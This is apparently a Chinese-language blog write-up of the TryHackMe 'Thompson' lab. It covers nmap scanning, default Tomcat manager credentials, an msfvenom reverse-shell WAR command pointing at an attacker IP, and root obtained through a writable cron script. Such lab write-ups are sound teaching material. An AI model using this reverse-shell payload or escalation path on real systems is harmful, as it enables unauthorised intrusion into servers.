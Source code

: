 ```yaml
---
title: '[thm] Thompson'
date: 2024-12-26 14:15 +0800
categories: [hack,TryHackMe]
tags: []
---
```




## information

![image-20241226141638959](../assets/img/2024-12-26-%5Bthm%5D%20Thompson.assets/image-20241226141638959.png)

> nmap扫描

![image-20241226142025415](./2024-12-26-%5Bthm%5D%20Thompson.assets/image-20241226142025415.png)

> 8080端口截图

看到开放了三个端口。其中`8009`这个端口和对应的`ajp13`服务引起了我的兴趣，查询可知，这个服务存在一个任意文件读取的漏洞，并且事实上这个漏洞确实存在。

8080端口是一个`tomcat`，理所当然的查看`manager`路径，登录页面需要账号密码。

![image-20241226142311254](./2024-12-26-%5Bthm%5D%20Thompson.assets/image-20241226142311254.png)

到此为止，我一开始觉得思路就很清晰了，我只需要通过任意文件读取的漏洞查看到`conf/tomcat-user.xml`中的账号密码就可以了。事实并非如此，任意文件读取就是一个兔子洞，我在这里浪费了太多的时间，其实只需要按下`Cancel`按钮，就可以直接看到密码......

![image-20241226142458987](./2024-12-26-%5Bthm%5D%20Thompson.assets/image-20241226142458987-1735195042433-6.png)

> zhei您受得了吗。

**tomcat/s3cret**

## user1

有了tomcat的后台页面，顺理成章我们上传一个war木马，就可以拿到shell

```shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.14.95.76 LPORT=1234 -f war -o shell.war
```

偷个懒，就不复现一遍了。

![image-20241226142721955](./2024-12-26-%5Bthm%5D%20Thompson.assets/image-20241226142721955.png)

## root

![image-20241226142849270](./2024-12-26-%5Bthm%5D%20Thompson.assets/image-20241226142849270.png)

到`jack`哥哥的家目录下。可以发现一个`id.sh`。里面内容大致如下（这里的已经被我修改了）。

```sh
#/bin/bash

id > test.txt
```

同时查看定时任务发现，这是`root`的定时任务，每分钟执行。我看到命令行内容第一反应是劫持环境变量提权，但是这里注意权限，我们对`id.s`h是可读可写可执行。所以我们只要修改sh脚本的内容，就可以得到我们想要的`root.txt`

![image-20241226143347446](./2024-12-26-%5Bthm%5D%20Thompson.assets/image-20241226143347446.png)

> own~



## conclusion

- 注重思路的同时要注意细节。这个靶机两个点都与细节有关，`cancel`一个，`sh`脚本权限一个。


